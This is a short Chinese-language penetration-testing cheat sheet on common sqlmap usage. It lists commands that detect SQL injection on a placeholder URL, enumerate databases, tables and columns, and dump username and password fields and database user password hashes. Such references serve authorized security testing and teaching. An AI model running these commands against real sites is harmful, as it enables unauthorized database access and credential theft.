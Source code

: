 ```yaml
---
title: SQLMap常用方法
date: 2024-01-01 10:26:43
tags: 渗透测试
mathjax: true
---
```


# SQLMap常用方法

## 基本使用

判断是否存在注入：

```bash
sqlmap -u http://xxx/?id=1 #参数大于等于2个时url加双引号
```

存在cookie注入时：

```bash
sqlmap -r 1.txt #1.txt为请求包内容
```

查询当前用户下所有数据库：

```bash
sqlmap -u http://xxx/?id=1 --dbs
```

获取数据库表名：

```bash
sqlmap -u "http://xxx/?id=1" -D dkeye --tables
```

获取表中字段名：

```bash
sqlmap -u "http://xxx/?id=1" -D dkeye -T user_info --columns
```

获取字段内容：

```bash
sqlmap -u "http://xxx/?id=1" -D dkeye -T user_info -C username,password --dump
```

列出数据库所有用户：

```bash
sqlmap -u "http://xxx/union.php?id=1" --user
```

获取数据库用户密码：

```bash
sqlmap -u "http://xxx/union.php?id=1" --password
```
